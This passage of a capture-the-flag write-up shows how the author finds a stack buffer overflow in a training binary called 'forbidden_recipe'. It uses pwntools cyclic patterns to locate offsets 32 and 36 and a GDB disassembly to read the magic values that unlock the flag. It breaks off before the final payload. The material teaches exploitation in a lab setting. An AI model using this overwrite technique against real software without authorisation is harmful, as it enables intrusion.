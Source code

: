 ```
}
```

Then, from the code, we can see that there is an `if` check that compares with a constant value. If true, it calls the `win()` function and prints the flag. However, the two variables are initially set to 0. Then I remembered that when we run the ELF file
```
└─$ ./forbidden_recipe    
Welcome back to Kogarashi Café.  
Barista: 'I remember you... what will it be this time?'  
hello  
Barista: 'Hmm... that's not quite right. Order codes: 0x0, 0x0'  
Barista: 'Try again, I know you'll get it.'
```
There is a value leak from the program, so I thought it might be related to the two variables `local_10` and `local_14`. I considered using Python's `pwn` library with `cyclic` to overwrite these values and find the offset
```
└─$ ./forbidden_recipe                                             
Welcome back to Kogarashi Café.  
Barista: 'I remember you... what will it be this time?'  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa  
Barista: 'Hmm... that's not quite right. Order codes: 0x6161616a, 0x61616169'  
Barista: 'Try again, I know you'll get it.'
```
We can see that the values have been changed. Next, I found the offset using `cyclic_find()`.
```
>>> cyclic_find(0x6161616a)
36
>>> cyclic_find(0x61616169)
32
```
The offsets are 32 and 36. So, we need to adjust the payload to fit our desired values at those offsets. To find both values, I used GDB to analyze the disassembled code
```
pwndbg> disass vuln  
Dump of assembler code for function vuln:  
  0x080485e6 <+0>:     push   ebp  
  0x080485e7 <+1>:     mov    ebp,esp  
  0x080485e9 <+3>:     sub    esp,0x38  
  0x080485ec <+6>:     mov    DWORD PTR [ebp-0xc],0x0  
  0x080485f3 <+13>:    mov    DWORD PTR [ebp-0x10],0x0  
  0x080485fa <+20>:    sub    esp,0xc  
  0x080485fd <+23>:    push   0x80487c8  
  0x08048602 <+28>:    call   0x8048430 <puts@plt>  
  0x08048607 <+33>:    add    esp,0x10  
  0x0804860a <+36>:    sub    esp,0xc  
  0x0804860d <+39>:    push   0x80487ec  
  0x08048612 <+44>:    call   0x8048430 <puts@plt>  
  0x08048617 <+49>:    add    esp,0x10  
  0x0804861a <+52>:    sub    esp,0x4  
  0x0804861d <+55>:    push   0x28  
  0x0804861f <+57>:    lea    eax,[ebp-0x30]  
  0x08048622 <+60>:    push   eax  
  0x08048623 <+61>:    push   0x0  
  0x08048625 <+63>:    call   0x80483f0 <read@plt>  
  0x0804862a <+68>:    add    esp,0x10  
  0x0804862d <+71>:    cmp    DWORD PTR [ebp-0xc],0xc0ff33  
  0x08048634 <+78>:    jne    0x8048656 <vuln+112>  
  0x08048636 <+80>:    cmp    DWORD PTR [ebp-0x10],0xdecafbad  
  0x0804863d <+87>:    jne    0x8048656 <vuln+112>  
  0x0804863f <+89>:    sub    esp,0xc  
  0x08048642 <+92>:    push   0x8048824  
  0x08048647 <+97>:    call   0x8048430 <puts@plt>  
  0x0804864c <+102>:   add    esp,0x10  
```